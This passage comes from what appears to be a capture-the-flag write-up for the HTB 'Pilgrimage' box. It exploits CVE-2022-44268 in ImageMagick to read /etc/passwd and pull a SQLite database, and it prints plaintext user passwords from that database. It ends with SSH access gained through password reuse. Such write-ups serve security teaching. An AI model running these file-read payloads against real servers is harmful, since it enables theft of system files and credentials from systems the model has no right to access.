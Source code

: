 #### Automated script

There is a publicly available automated [rust PoC](https://github.com/voidz0r/CVE-2022-44268) for CVE-2022-44268.

```bash
> cargo run "/etc/passwd"
    Finished dev [unoptimized + debuginfo] target(s) in 0.05s
     Running `target/debug/cve-2022-44268 /etc/passwd`

❯ exiftool "-*Profile*" 649df80e3ce8d.png
Raw Profile Type                : ..    1437.726f6f743.....16c73650a.

❯ echo '726f6f743.....16c73650a' | xxd -r -p | grep sh$
root:x:0:0:root:/root:/bin/bash
emily:x:1000:1000:emily,,,:/home/emily:/bin/bash
```

### SQLite Enum

Based on the the source code from the repository, I know that the database being used is located at `/var/db/pilgrimage`.  Since this is also used for login, Leveraging the CVE, I can retrieved the SQLite database. ( [CyberChef Recipe for the decoding the data](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')Detect_File_Type(true,true,true,true,true,true,true)) )

```
❯ pngcrush -text a "profile" "/var/db/pilgrimage" exploit.png
  Recompressing IDAT chunks in exploit.png to pngout.png
   Total length of data found in critical chunks            =        72
   Best pngcrush method        =   1 (ws 11 fm 0 zl 4 zs 0) =        72
CPU time decode 0.000218, encode 0.000548, other 0.005589, total 0.006840 sec
❯ >....
00000000000000000' | xxd -p -r > pilgrimage.sqlite
❯ file pilgrimage.sqlite
pilgrimage.sqlite: SQLite 3.x database, last written using SQLite version 3034001, file counter 75, database pages 5, cookie 0x4, schema 4, UTF-8, version-valid-for 75
```

Within the SQLite database, I found a user table that contains Emily's password.

```bash
> sqlite3 pilgrimage.sqlite
SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
sqlite> .tables
images  users
sqlite> select * from users;
emily|abigchonkyboi123
abraxas|abraxas
sqlite>
```

### SSH as emily

Given that there is a user named `emily` on the box, I attempted password reuse on SSH, and it was successful.
